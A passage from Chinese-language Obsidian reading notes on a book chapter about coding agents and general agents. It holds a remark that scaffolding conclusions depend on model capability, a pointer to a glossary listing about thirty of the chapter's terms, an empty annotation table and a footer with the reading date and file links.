- **脚手架厚度随模型能力漂移**：本章明确「同一套脚手架配不同模型结论可能截然不同」——这对文档/笔记的读者是个提醒：**任何「该不该做某脚手架」的结论都要标注它所依赖的模型能力前提**。

## 本章新术语 → 术语表

本章首次详细引入的术语已录入 [[02-全书术语表#第五章 Coding Agent 与通用 Agent|术语表·第五章]]（约 30 条：七个核心工具、元能力、文件系统中枢、项目指令文件、AI-ready 指标、任务四象限、Harness 四组件、过程性错误、故障四层、重复调用指纹、空闲看门狗、恢复三级、中立轨迹、死亡螺旋、级联中止、终端状态持久化、搜索四类/编辑五方案、致命三要素与持久记忆、隔离兜底、语义解析、委托方忠诚、代码化规则三重保障、Artifact 模式、生成式 UI 与 A2UI、信任边界下移、Agent 自举等）。

## 我的批注（留白区）

| 疑问/心得 | 状态 |
| --- | --- |
|  |  |

---

*精读日期：2026-09-15 · 原文：`D:\ObsidianRepository\book\chapter5.md`（库外只读）。实验解读见 [[实验解读/第5章 Coding Agent 与通用 Agent]]，思考题见 [[思考题引导/第5章 Coding Agent 与通用 Agent]]，规范见 [[01-精读笔记规范]]。*
